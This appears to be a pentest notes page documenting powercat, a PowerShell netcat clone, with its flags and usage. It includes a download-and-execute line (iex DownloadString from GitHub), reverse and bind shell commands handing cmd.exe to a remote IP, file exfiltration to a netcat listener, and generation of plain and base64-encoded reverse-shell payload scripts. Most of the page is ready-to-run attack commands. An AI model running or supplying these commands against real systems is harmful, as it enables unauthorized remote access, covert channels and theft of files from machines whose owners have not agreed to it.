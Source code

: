 ```yaml
---
title : "powercat"
# pre : ' '
description : "Netcat: The powershell version. (Powershell Version 2 and Later Supported)."
date : 2022-09-26T14:49:48+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

Download the `.ps1` here and execute with the command below.

{{%resources fa_icon_class="fas fa-terminal" pattern=".*(ps1)"/%}}

```plain
. .\powercat.ps1
```

Or invoke directly with `iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`

## Usage

```plain
powercat [-c or -l] [-p port] [options]
```

## Flags

```plain
  -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                  If you are using -dns, specify the DNS Server to send queries to.

  -l              Listen Mode. Start a listener on the port specified by -p.

  -p  <port>      Port. The port to connect to, or the port to listen on.

  -e  <proc>      Execute. Specify the name of the process to start.

  -ep             Execute Powershell. Start a pseudo powershell session. You can
                  declare variables and execute commands, but if you try to enter
                  another shell (nslookup, netsh, cmd, etc.) the shell will hang.

  -r  <str>       Relay. Used for relaying network traffic between two nodes.
                  Client Relay Format:   -r <protocol>:<ip addr>:<port>
                  Listener Relay Format: -r <protocol>:<port>
                  DNSCat2 Relay Format:  -r dns:<dns server>:<dns port>:<domain>

  -u              UDP Mode. Send traffic over UDP. Because it's UDP, the client
                  must send data before the server can respond.

  -dns  <domain>  DNS Mode. Send traffic over the dnscat2 dns covert channel.
                  Specify the dns server to -c, the dns port to -p, and specify the
                  domain to this option, -dns. This is only a client.
                  Get the server here: https://github.com/iagox86/dnscat2

  -dnsft <int>    DNS Failure Threshold. This is how many bad packets the client can
                  recieve before exiting. Set to zero when receiving files, and set high
                  for more stability over the internet.

  -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                  connecting. Default: 60

  -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                  established. Used for moving files. You can provide the path to a file,
                  a byte array object, or a string. You can also pipe any of those into
                  powercat, like 'aaaaaa' | powercat -c 10.1.1.1 -p 80

  -o  <type>      Output. Specify how powercat should return information to the console.
                  Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.

  -of <path>      Output File.  Specify the path to a file to write output to.

  -d              Disconnect. powercat will disconnect after the connection is established
                  and the input from -i is sent. Used for scanning.

  -rep            Repeater. powercat will continually restart after it is disconnected.
                  Used for setting up a persistent server.

  -g              Generate Payload.  Returns a script as a string which will execute the
                  powercat with the options you have specified. -i, -d, and -rep will not
                  be incorporated.

  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>

  -h              Print this help message.
```

## Examples

### Send a file to receiver

- Receiver: `nc -nlvp 443 > out.txt`

```plain
powercat -c 10.0.0.20 -p 443 -i .\testfile.txt
```

### Shells (reverse/bind)

### Reverse shell

- Receiver: `nc -nlvp 443`
- `-e` - specifies the application that is executed once connected

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe
```

### Bind shell

- `-l` - specifies powercat to create a listener
- `-e` - specifies the application that is executed once connected

```plain
powercat -l -p 443 -e cmd.exe
```

Once a connection is received (`nc <ip> 443`) the bind shell will be initiated.

### Payload Generation

### Standalone payloads

- Non-encoded

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -g > reverse-shell.ps1
```

- Encoded (run with `powershell.exe -E`)

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -ge > reverse-shell.ps1
```

## URL List

- [Github.com - powercat](https://github.com/besimorhino/powercat)
